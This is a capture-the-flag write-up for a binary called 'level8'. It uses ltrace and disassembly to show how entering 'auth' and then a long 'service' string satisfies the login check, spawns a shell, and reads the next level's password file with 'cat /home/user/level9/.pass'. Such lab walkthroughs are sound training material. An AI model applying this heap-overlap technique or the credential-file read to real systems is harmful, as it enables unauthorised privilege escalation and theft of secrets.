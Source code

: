 We run the program

./level8
(nil), (nil)

Infinity loop, I think the progra; wait 2 parameters

$> ltrace ./level8
__libc_start_main(0x8048564, 1, 0xbffff7d4, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil)
)                                = 14
fgets(test test
"test test\n", 128, 0xb7fd1ac0)                            = 0xbffff6b0
printf("%p, %p \n", (nil), (nil)(nil), (nil)
)                                = 14
fgets(truc truc
"truc truc\n", 128, 0xb7fd1ac0)                            = 0xbffff6b0
printf("%p, %p \n", (nil), (nil)(nil), (nil)
)                                = 14
fgets(

The program wait 2 parameters because printf try to print these arguments

If we cat the program ce can see :
auth resetservicelogin/bin/shPassword:

ltrace ./level8
fgets(auth test
"auth test\n", 128, 0xb7fd1ac0)                            = 0xbffff6b0
malloc(4)                                                        = 0x0804a008
strcpy(0x0804a008, "test\n")                                     = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil)
)                            = 18

There is a malloc of 4, after, a strcpy in this malloc adress
Reset isn't usefull for us

ltrace ./level8
fgets(auth q
"auth q\n", 128, 0xb7fd1ac0)                               = 0xbffff6b0
malloc(4)                                                        = 0x0804a008
strcpy(0x0804a008, "q\n")                                        = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil)
)                            = 18
fgets(service q
"service q\n", 128, 0xb7fd1ac0)                            = 0xbffff6b0
strdup(" q\n")                                                   = 0x0804a018
printf("%p, %p \n", 0x804a008, 0x804a0180x804a008, 0x804a018
)                        = 22

We can see that service use the same pointer that auth. If we try to put service i nfirst, it's not working.
We need to put auth in first argument to launch the malloc
A strdup is call when we put service

Now, see for login:
fgets(login
"login\n", 128, 0xb7fd1ac0)                                                    = 0xbffff6b0
fwrite("Password:\n", 1, 10, 0xb7fd1a20Password:
)                                             = 10

We need a password. We can see in the ASM code, that eax need to be different of null to call system.

   0x080486da <+374>:	test   %eax,%eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    0x8049aac,%eax
   0x080486e7 <+387>:	mov    0x20(%eax),%eax
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   $0x8048833,(%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    0x8049aa0,%eax

We test if 0x20 != null. So, the 32th char

ltrace ./level8
fgets(service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
"service AAAAAAAAAAAAAAAAAAAAAAAA"..., 128, 0xb7fd1ac0)    = 0xbffff6b0
strdup(" AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                    = 0x0804a018
printf("%p, %p \n", 0x804a008, 0x804a0180x804a008, 0x804a018
)                        = 22

Now, try without ltrace

./level8
(nil), (nil)
auth a
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
cat /home/user/level9/.pass
